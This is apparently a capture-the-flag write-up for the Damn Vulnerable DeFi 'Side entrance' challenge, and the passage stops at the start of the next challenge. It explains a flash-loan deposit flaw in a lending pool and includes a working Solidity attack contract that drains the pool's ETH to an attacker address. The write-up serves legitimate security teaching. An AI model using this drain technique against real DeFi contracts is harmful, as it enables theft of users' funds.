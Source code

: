 
- - -
## CTF name: Damn Vulnerable DeFi
### Challenge name: Side entrance
### Challenge description:
    A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.

    This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

    You must take all ETH from the lending pool.

### Challenge category => so users know the chall’s field
### Challenge points => so users know the chall’s difficulty


In this challenge, we must take all ETH from the lending pool. __SideEntranceLenderPool contract__ provides flashloan just like previous contracts. This pool contract also contains __deposit()__ and __withdraw()__ functions as well. The vulnerability comes from __deposit()__ function. It increases balance of `msg.sender`, however, it does not check if the balance of pool has really increased. 

There is a line of code in __flashLoan()__:  `IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();`. This line of code allows `msg.sender` to execute __execute()__ function from itself. We can call __deposit()__ function during flash loan to increase balance of ourselves, and we can withdraw.

Here is attack contract:

```soildity
contract FlashLoanEtherReceiver {
    function execute() external payable {
        SideEntranceLenderPool(msg.sender).deposit{value: msg.value}();
    }

    function attackSideEntranceLenderPool(SideEntranceLenderPool pool, address attacker) public {
        pool.flashLoan(address(pool).balance);
        pool.withdraw();
        payable(attacker).transfer(address(this).balance);
    }

    receive() external payable{}
}
```

By calling, attackSideEntranceLenderPool, we execute flashLoan, and during flashLoan, it will execute __execute()__ function from attack contract which will deposit flash loan amount. Then we withdraw from the pool and send stolen ETH to attacker.


- - -
## CTF name: Damn Vulnerable DeFi
### Challenge name: The rewarder
### Challenge description:
    There's a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.
